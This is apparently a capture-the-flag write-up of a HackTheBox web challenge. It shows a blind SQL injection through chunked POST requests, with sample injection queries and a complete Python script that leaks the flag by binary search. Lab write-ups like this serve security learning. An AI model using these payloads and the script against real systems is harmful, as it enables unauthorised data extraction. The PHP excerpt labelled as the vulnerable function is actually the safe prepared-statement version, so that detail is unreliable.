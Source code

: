 ```yaml
---
title: When Leetcode Meets Hacking
description: Solution for HTB Web Challenge 0xBOverchunked
date: 2024-02-08 02:45:01-0700
image: img/hackthebox.jpg
categories:
    - HackTheBox
tags:
    - web
    - htb
    - easy
---
```


# Intro

Given that I'm currently grinding leetcode and app sec stuff, this challenge was super enjoyable.
The vulnerability is very straightforward and easy to spot, and you get to write a binary search script to leak the flag (you don't have to, but it does offer optimal time complexity).

# Walkthrough

There is an SQL injection available within the `unsafequery()` function.

```php
function safequery($pdo, $id)
{
    if ($id == 6)
    {
        die("You are not allowed to view this post!");
    }

    $stmt = $pdo->prepare("SELECT id, gamename, gamedesc, image FROM posts  WHERE id = ?");
    $stmt->execute([$id]);

    $result = $stmt->fetch(PDO::FETCH_ASSOC);

    return $result;
}
```

This unsafe function can only be called when we have the `Transfer-Encoding: chunked` header in our request, but if the query succeeds then we will only see an error message.

```php
if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];
    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}
```
However, this is enough for blind SQL.
We can iterate over the indices of the flag value, and compare each substring of length 1 at that index with another character, and make educated guesses about the value of the flag.
Take a look at the following:

```
SELECT id, gamename, gamedesc, image from posts where id = '1' AND 1=1 ;--
SELECT id, gamename, gamedesc, image from posts where id = '1' AND substr('HTB', 1, 1) = 'H' ;--
SELECT id, gamename, gamedesc, image FROM posts WHERE id = '1' AND substr((SELECT gamedesc FROM posts WHERE id = '6'), 1, 1) > 'A' ;--
```
All of these statements will execute successfully, giving us the `No post id found` message.

It's just a slightly more convuluted basic SQL injection, but you base your guess of the flag value based on whether the second condition resolves to True or False.
This is where leetcode comes in.
So the flag can contain any value from 0x20 to 0x7f (that is just the readable ASCII range).
So we can use a binary search algorithm to make a guess as to whether a character in the flag is greater or lesser than some mid range value.
We just take the mid point of 0x20 and 0x75, create a query that will give us the `No post id found` message if the flag letter is greater, or give us a 500 error if its not.
Then we readjust the range, and keep repeating until only 1 character is left.

```python
#!/usr/bin/python3

import requests

URL = "http://localhost:1337"
PATH = "/Controllers/Handlers/SearchHandler.php"

def build_query(idx, c):
        query = f"search=6' AND substr((SELECT gamedesc FROM posts where id = '6'), {idx}, 1) > '{c}' ;--"
        payload = ""
        payload += f"{len(query):X}\r\n"
        payload += query
        payload += "\r\n"
        payload += "0\r\n"
        payload += "\r\n"

        return payload

def make_request(payload):
        headers = {
                "Content-Type": "application/x-www-form-urlencoded",
                "Transfer-Encoding": "chunked"
                }
        r = requests.post(URL + PATH, data=payload, headers=headers)
        if r.status_code == 200:
                return True
        else:
                return False

def find_letter(idx):
        start = 32
        end = 127

        while (end - start) > 0:
                mid = (start + end) // 2
                q = build_query(idx, chr(mid))
                correct = make_request(q)
                if correct:
                        start = mid + 1
                else:
                        end = mid
        
        return chr(start)

print("[i] LEAKING FLAG: ", end="")
letter = ""
ctr = 1
while letter != "}":
        letter = find_letter(ctr)
        print(letter, end="")
        ctr += 1
```
